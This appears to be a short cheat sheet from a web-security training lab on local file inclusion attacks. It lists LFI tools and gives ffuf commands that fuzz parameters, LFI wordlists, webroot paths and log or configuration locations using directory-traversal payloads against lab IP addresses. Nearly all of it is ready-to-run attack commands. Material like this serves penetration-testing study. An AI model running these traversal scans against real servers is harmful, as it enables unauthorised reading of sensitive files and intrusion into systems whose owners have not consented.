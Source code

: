 
most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy).

parameter fuzzing
```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://94.237.51.33:48594/index.php?FUZZ=value' -fs 2287
```

LFI fuzzing
```shell-session
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.58.50:34336/ilf_admin/index.php?log=FUZZ' -fs 2287
```

Server webroot
```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://94.237.58.50:34336/index.php?page=../../../../FUZZ/index.php' -fs 2287
```

Finding logs/configurations
[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) or LFI
```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.58.50:34336/ilf_admin/index.php?log=/../../../../../../../../../../FUZZ' -fs 2287
```
[wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows),
```shell-session
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://94.237.58.50:34336/index.php?view=../../../../FUZZ' -fs 2287
```